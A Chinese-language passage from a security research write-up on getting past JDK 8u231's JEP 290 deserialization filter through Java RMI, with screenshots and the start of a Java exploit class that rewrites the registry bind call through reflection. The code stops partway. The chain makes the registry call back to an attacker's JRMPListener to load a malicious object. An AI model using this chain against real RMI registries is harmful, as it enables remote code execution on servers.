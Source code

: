 封装完成之后，会来到重载的 exportObject 方法

![image-20250309142707562](https://gitee.com/ling-x5/img/raw/master/image-20250309142707562.png)

这个在 registry 创建时，已经走过一遍了，最后就是在 TCPTransport#listen 开启监听

![image-20250309143146843](https://gitee.com/ling-x5/img/raw/master/image-20250309143146843.png)

建立 socket 连接，ep 就是 EndPoint 对象，我们继续跟，看到了 ssf（RMIServerSocketFactory），这个我们之前提到过，在封装 LiveRef 时，把 TCPEndPoint 属性的 ssf 初始化成我们恶意的 ssf。

![image-20250309143325866](https://gitee.com/ling-x5/img/raw/master/image-20250309143325866.png)

这里我们可以把RMIServerSocketFactory封装为代理对象，做跳板，由于这里是一个代理对象，会调用到 java.rmi.server.RemoteObjectInvocationHandler#invoke 方法 => RemoteObjectInvocationHandler#invokeRemoteMethod 方法

![image-20250309150938027](https://gitee.com/ling-x5/img/raw/master/image-20250309150938027.png)

之后有会调用我们熟悉的 sun.rmi.server.UnicastRef#invoke，我们可以给 ref 赋值

![image-20250309151702421](https://gitee.com/ling-x5/img/raw/master/image-20250309151702421.png)

之后就是让 UnicastRef#invoke 方法中让 Registry 向 JRMPListener 发起了 JRMP 请求，拿回来反序列化]

还有就是我们不能本地直接调用 bind，或者 rebind 方法，需要重新自己重写一下 RegistryImpl#bind 方法，在序列化之前通过反射 ObjectInputStream，修改 enableReplace 为 false，不然我们的 payload 会被转化为代理对象

```java
package com.lingx5.RMI;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.io.ObjectOutput;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.*;
import java.util.Random;

public class bypassJEP8u231 {
    public static void main(String[] args) throws Exception {
        // 拿到registryStub对象
        Registry registry_Stub = LocateRegistry.getRegistry("127.0.0.1", 1099);
        /*
        重写 bind方法
         */
        // 反射获取registryStub对象的operations字段
        Field f = registry_Stub.getClass().getDeclaredFields()[0];
        f.setAccessible(true);
        Operation[] operations = (Operation[]) f.get(registry_Stub);
        // 获取registryStub对象的ref字段
        Field ref_filed = RemoteObject.class.getDeclaredField("ref");
        ref_filed.setAccessible(true);
        UnicastRef ref = (UnicastRef) ref_filed.get(registry_Stub);
        RemoteCall remoteCall = ref.newCall((RemoteObject) registry_Stub, operations, 2, 4905912898345647071L);
        ObjectOutput outputStream = remoteCall.getOutputStream();
        Field enableReplace_filed = ObjectOutputStream.class.getDeclaredField("enableReplace");
        enableReplace_filed.setAccessible(true);
        enableReplace_filed.setBoolean(outputStream, false);
```